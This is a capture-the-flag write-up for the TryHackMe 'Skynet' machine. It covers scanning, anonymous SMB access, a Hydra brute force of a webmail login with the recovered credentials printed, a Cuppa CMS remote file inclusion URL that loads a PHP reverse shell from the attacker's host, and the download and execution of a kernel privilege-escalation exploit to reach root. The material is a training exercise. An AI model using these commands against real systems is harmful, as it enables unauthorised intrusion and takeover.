# Skynet - TryHackMe

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ nmap -sV -sC -Pn 10.10.223.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 09:18 EST
Nmap scan report for 10.10.223.17
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE SASL CAPA PIPELINING UIDL TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more SASL-IR LOGIN-REFERRALS LOGINDISABLEDA0001 capabilities IMAP4rev1 LITERAL+ have OK post-login Pre-login listed ENABLE IDLE ID
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-03-13T08:18:27-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-13T14:18:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.77 seconds
```

Interested with the webserver, so I take a look and am presented with this:



Checked the source, nothing interesting there. I'm opting to use gobuster here to see if we can find some interesting directories:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ gobuster dir -u http://10.10.223.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

One directory it found was /squirrelmail, so I open that up and looks like they have a version of squirrelmail running:



Searching with searchsploit for the squirrelmail version results in the following:



Looks like this version has a local file inclusion. I test this:



Hmmh, seems not to be working for unauthorised users...

Nmap also found an SMB share, so I will run an enumeration scan using nmap scripts:

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.223.17`

The result:




Well as it turns out anonymous access is available, so instead I connect to the smb share:

```
──(kali㉿kali)-[~]
└─$ smbclient //10.10.223.17/anonymous 
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5797120 blocks available
```

After looking through the logs, one seems to contain a list of possible passwords.. interesting, let me use these as the password list for a brute-force:



Okay, now I check for the POST parameters:



And run the Hydra bruteforce:



Great! We found the username and password:
milesdyson:cyborg007haloterminator

Now, logging into the email server, we find an email with the users' SMB password:



I then create a credentials file for smbclient:



And login to milesdyson's share:



After navigating, I found a file under notes/important.txt which includes this:



The front-page for the 'beta cms' looks as such:



I run a gobuster and find a directory /administrator/ which brings me to this:



I check with searchsploit for Cuppa CMS to see if there are any public vulnerabilities:



Reading through the txt tells us about a local/remote file inclusion exploit on the URI `/alerts/alertConfigField.php?urlConfig=`

I decide to use php-reverse-shell (available [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)), and edit it with my local ip and port 4444, and then start up a python webserver using `python -m SimpleHTTPServer` in order to include it on the site.

Before running, I startup my listener on port 4444 using netcat, and then run the inclusion exploit:

`http://10.10.223.17/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.2.93:8000/php-reverse-shell.php`

And we have a terminal!



I check the kernel version for possible privesc exploits:

```
$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Doing a search, I find an exploit for this kernel version CVE 2017-1000112 in the form of a c file. I check, and www-data has access to wget! Okay, so let us create and compile this binary on my localmachine and upload it:



And then download it and execute on the victim:


```
$ wget http://10.9.2.93:8000/esc
--2021-03-13 10:14:42--  http://10.9.2.93:8000/esc
Connecting to 10.9.2.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36192 (35K) [application/octet-stream]
Saving to: 'esc'

     0K .......... .......... .......... .....                100% 1.14M=0.03s

2021-03-13 10:14:42 (1.14 MB/s) - 'esc' saved [36192/36192]
$ chmod +x esc
$ ./esc   
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html/45kra24zxs28v3yd/administrator# whoami
whoami
root
```

And now we have root! Thanks outdated kernels!

Now I am free to find the flags in /root


